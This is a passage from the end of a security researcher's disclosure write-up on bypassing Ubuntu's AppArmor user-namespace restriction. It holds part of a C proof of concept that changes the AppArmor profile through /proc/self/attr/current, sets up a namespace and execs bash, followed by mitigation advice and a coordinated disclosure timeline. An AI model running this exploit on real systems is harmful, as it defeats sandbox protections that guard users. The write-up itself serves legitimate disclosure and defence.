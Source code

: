 ``` c

void func_2()
{
    int ret;
    int fd = open("/proc/self/attr/current", O_RDWR);
    if (fd < 0) perror_exit("open /proc/self/attr/current");

    ret = write(fd, profile2, sizeof(profile2));
    close(fd);

    unshare_setup(getuid(), getgid());
    char *const _argv[] = {NULL};
    char *const _envp[] = {NULL};
    execve("/bin/bash", _argv, _envp);
}

int main()
{
    func_1();
    func_2();
}
```

## 6. Mitigation

The bypass method works only when `/proc/sys/kernel/apparmor_restrict_unprivileged_unconfined` is disabled (i.e., set to 0). Versions of Ubuntu later than 25.04 are not affected, as it is enabled by default.

For Ubuntu 24.10 and earlier versions, please refer to the [official post](https://discourse.ubuntu.com/t/understanding-apparmor-user-namespace-restriction/58007#p-148026-restrict-unprivileged-unconfined-profile-changes) for instructions on how to prevent any unprivileged and unconfined process from executing `aa-exec` to change its profile.

## 7. Disclosure Timeline

- 2025-02-16: Researcher @roddux mentioned that the namespace restriction is easy to bypass.
- 2025-02-17: I discovered the bypass method.
- 2025-02-24: I reported the issue to the ZDI team.
- 2025-03-21: Researcher @roddux published his bypass method.
- 2025-03-27: The Qualys team, upon noticing @roddux’s publication, also disclosed their advisory.
- 2025-04-27: The ZDI team responded that they are not interested in this type of bug.
- 2025-04-30: I reported the issue to the Ubuntu Security Team.
- 2025-05-01: John, one of the maintainers, notified me that it had entered the initial review stage.
- 2025-05-30: John provided a full analysis of the issue.
- 2025-06-26: Coordinated release.